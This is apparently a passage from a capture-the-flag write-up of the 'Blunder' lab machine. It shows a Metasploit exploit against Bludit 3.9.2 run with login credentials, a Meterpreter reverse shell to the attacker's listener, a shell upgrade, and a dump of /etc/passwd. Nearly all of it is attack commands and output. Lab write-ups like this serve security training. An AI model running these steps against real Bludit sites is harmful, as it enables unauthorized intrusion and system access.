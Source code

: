 ```
msf5 > use exploit/linux/http/bludit_upload_images_exec
msf5 exploit(linux/http/bludit_upload_images_exec) > set BLUDITUSER fergus
BLUDITUSER => fergus
msf5 exploit(linux/http/bludit_upload_images_exec) > set BLUDITPASS RolandDeschain
BLUDITPASS => RolandDeschain
msf5 exploit(linux/http/bludit_upload_images_exec) > set RHOST 10.10.10.191
RHOST => 10.10.10.191
msf5 exploit(linux/http/bludit_upload_images_exec) > exploit

[*] Started reverse TCP handler on 10.10.14.31:4444 
[+] Logged in as: fergus
[*] Retrieving UUID...
[*] Uploading hvgsNsHoEn.png...
[*] Uploading .htaccess...
[*] Executing hvgsNsHoEn.png...
[*] Sending stage (38288 bytes) to 10.10.10.191
[*] Meterpreter session 1 opened (10.10.14.31:4444 -> 10.10.10.191:40924) at 2020-06-01 20:44:27 +0700
[+] Deleted .htaccess

meterpreter > 
meterpreter > shell
Process 22117 created.
Channel 0 created.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python -c "import pty;pty.spawn('/bin/bash')"
www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp$ 
www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp$
```
let's see /etc/passwd
```
www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
uuidd:x:106:113::/run/uuidd:/usr/sbin/nologin
tcpdump:x:107:114::/nonexistent:/usr/sbin/nologin
```